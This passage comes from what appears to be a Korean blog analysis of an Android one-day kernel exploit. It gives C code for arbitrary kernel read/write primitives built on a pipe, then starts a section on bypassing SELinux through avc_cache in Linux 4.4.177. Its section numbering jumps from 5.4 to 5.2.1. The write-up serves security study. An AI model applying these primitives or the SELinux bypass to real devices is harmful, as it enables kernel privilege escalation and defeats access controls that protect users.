 <br>
<br>
  
### 5.3.2 Make Arbitrary R/W primitives

1. arbitrary R/W를 위한 pipe를 만든다.
    
    ```c
    pipe(kernel_pipe)
    ```
    
2. 앞서 만든 pipe를 통해서 data를 pipe에 read하고 write하는 과정을 통해 원하는 주소에 있는 값을 버퍼로 옮기거나 버퍼에서 주소로 작성할 수 있다.
    - read : 주소 값을 pipe에 작성한 다음, 버퍼로 pipe읽어오기
        
        ```c
        void Read(void *addr, size_t len, void *buf) {
            write(kernel_pipe[1], addr, len);
            read(kernel_pipe[0], buf, len);
        }
        ```
        
    - write : 버퍼 값을 pipe에 write한 다음, 주소에서 read하기
        
        ```c
        void Write(void *addr, size_t len, void *buf) {
        	write(kernel_pipe[1], buf, len);
        	read(kernel_pipe[0], addr, len);
        }
        ```
        

<br>
<br>
  
## 5.4 Bypass SELinux

이 챕터에서는 SELinux의 동작 과정을 살펴본다. 그중에서 특히 avc_cache에 관련된 부분을 소스코드와 함께 살펴보면서, 이를 이용하여 SELinux를 우회할 수 있는 방법에 대해 알아본다.

- 이 챕터에서 분석한 SELinux 코드는 linux kernel 4.4.177 version이다.


<br>
  
### 5.2.1 How SELinux works

SELinux는 아래와 같은 순서로 동작한다.

![그림 8. SELinux 동작 과정 출처 : [https://github.com/SELinuxProject/selinux-notebook/raw/main/src/images/1-core.png](https://github.com/SELinuxProject/selinux-notebook/raw/main/src/images/1-core.png)](/assets/2024-03-11-Android-1day-Exploit-Analysis/android8.png)
